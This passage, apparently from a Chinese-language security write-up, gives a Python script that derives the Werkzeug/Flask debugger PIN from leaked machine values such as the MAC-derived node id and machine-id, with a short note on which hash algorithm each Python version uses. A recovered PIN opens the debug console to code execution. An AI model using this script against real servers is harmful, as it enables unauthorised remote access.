 生成脚本如下：

python3.8以后脚本：

需要注意的是：

计算哈希时, 不同版本的 python 使用的哈希算法可能不同, 分析时使用的python版本为3.10.12, 为SHA1哈希算法, 据其他分析文章, 小于等于3.8版本使用的是MD5哈希算法。

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'app',				#whoami
    'flask.app',
    'Flask',			# getattr(app, "__name__", type(app).__name__),
    '/usr/local/lib/python3.8/site-packages/flask/app.py' 	#getattr(mod,"__file__",None)
]

private_bits = [
    '2485376911915',	#str(uuid.getnode())    /sys/class/net/ens33/address
    '7265fe765262551a676151a24c02b7b646a18828428b87e35c5482255b121e8f7464b02e50ffe3f1d626f8c05793f49a'# get_machine_id(), /etc/machine-id  /proc/sys/kernel/random/boot_id
]   

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)

```
